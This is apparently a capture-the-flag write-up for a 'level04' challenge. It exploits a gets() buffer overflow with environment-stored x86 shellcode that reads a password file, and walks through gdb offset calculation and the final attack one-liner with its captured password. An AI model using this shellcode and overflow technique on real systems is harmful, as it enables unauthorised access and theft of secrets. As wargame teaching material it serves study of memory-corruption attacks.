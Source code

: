 Program behavior:
1. The program creates a child proccess and trace it for state changes;
2. The child reads from stdin to a buffer using vulnurable `gets` function;
3. If the child terminated (normally or by a signal) the parent terminates;
4. If the child called to `execve` the parent kills it and terminates.

Solution:
Call a shellcode which will open/read the file and write on stdout it's content.

# Store a shellcode inside the enviroment variable
export SHELLCODE=`python -c 'print "\x90" * 42 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
# Launch the debugger
gdb level04
# Disassemble main function
disassemble main
`0x080486d0 <+8>:     sub    $0xb0,%esp`
`0x080486e2 <+26>:    lea    0x20(%esp),%ebx`
# Run the debugged program
start
# Calculate the offset
print/d ($ebp + 4) - ($esp - 0xb0 + 0x20)
`$1 = 156`
# Check the SHELLCODE address
x/s *environ
`0xffffd866:      "SHELLCODE=(...)`
# Add some bytes to hit a NOP sled
print/a *environ + 15
`$2 = 0xffffd875`
# Quit the debugger
quit
# Initiate buffer overflow attack
python -c 'print("B" * 156 + "\x75\xd8\xff\xff")' | ./level04
`3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
